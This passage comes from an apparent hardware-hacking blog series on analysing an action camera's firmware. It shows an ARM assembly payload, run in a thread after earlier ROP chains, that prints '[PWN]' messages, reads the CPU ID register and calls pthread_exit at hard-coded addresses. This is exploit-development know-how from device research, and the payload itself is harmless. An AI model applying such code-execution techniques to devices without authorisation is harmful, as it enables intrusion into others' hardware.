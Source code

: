 *Note:* At this point I was sick of writing ROP-chains so it isn't the most efficient, luckily space isn't much of an issue.

## Payload Modifications

As we are running in a thread now, we'll be able to get rid of the fixup stuff we needed to include before, and we'll need to call **pthread_exit**:

```
-python
    @ print spawned string
    adr r0, spawned_string
    ldr r3, =0xc01a79a0
    blx r3
    @ load chip ID register
    mrc p15, #0, r1, c0, c0, #0
    @ print chip ID
    adr r0, fmt_string
    ldr r3, =0xc01a79a0
    blx r3
    @ print killing self
    adr r0, kill_self_string
    ldr r3, =0xc01a79a0
    blx r3
    @ call pthread_exit
    mov r0, #0x0
    ldr r3, =0xc037f2e4
    blx r3
spawned_string:
    .asciz "\033[35m[PWN]\033[0m THREAD SPAWNED\\n"
fmt_string:
    .asciz "\033[35m[PWN]\033[0m CPU ID REGISTER CONTENTS: 0x%x\\n"
kill_self_string:
    .asciz "\033[35m[PWN]\033[0m KILLING SELF\\n"
```

And it works great:

![thread_payload_test.png](/assets/images/analysing_an_action_camera_part_5/thread_payload_test.png)

# Compiling C Code
